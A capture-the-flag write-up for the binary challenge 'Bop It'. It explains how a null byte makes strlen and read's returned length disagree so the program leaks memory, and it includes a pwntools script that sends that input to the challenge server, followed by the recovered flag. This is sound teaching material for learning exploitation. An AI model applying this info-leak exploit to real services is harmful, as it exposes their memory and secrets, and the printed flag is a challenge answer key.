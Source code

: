 # Bop It
### Category: binary
### Description:
Can you [bop it](bop_it)? [Source](bop_it.c). Connect with `nc shell.actf.co 20702`.
### Author: kmh

### Solution:
In this challenge we got an ELF in which there is a little game that consist in sending the first letter of what it gives us unless we get `Flag it!`.
If we get flag statement it reads the flag from the file and asks us for it so it can check the two strings. Whenever we send a string it sets `guessLen` to the return vale of `read` function which returns the amount of data readed. If we send a wrong flag it builds an error string with what we sent but there is a problem: the buffer is built with the return value of `strlen` on our string incremented by 35, in the end it prints out this buffer with the length set with guessLen. How can we exploit this? With a NULL byte overflow!
If we send a `\x00` followed by a random data we increment the return value of guessLen but not the value of strlen so we can build a small `wrong` buffer but guessLen is still large enough to leak memory! Let's build a python automation script to play it and spray random data:

```py
from pwn import *
import time

def run(size):
    p = remote('shell.actf.co', 20702)
    exploit = '\x00' + 'A'*size

    while True:
        a = p.readuntil('it!')
        if 'Bop' in a:
            p.sendline('B')
        if 'Twist' in a:
            p.sendline('T')
        if 'Pull' in a:
            p.sendline('P')
        if 'Flag' in a:
            p.sendline(exploit)
            a = p.recvall()
            print(a)
            return
            
for i in range(35, 150, 10):
    	run(i)
```
Let's run it and after some attempt we get the flag!

### Flag:
```
actf{bopp1ty_bop_bOp_b0p}
```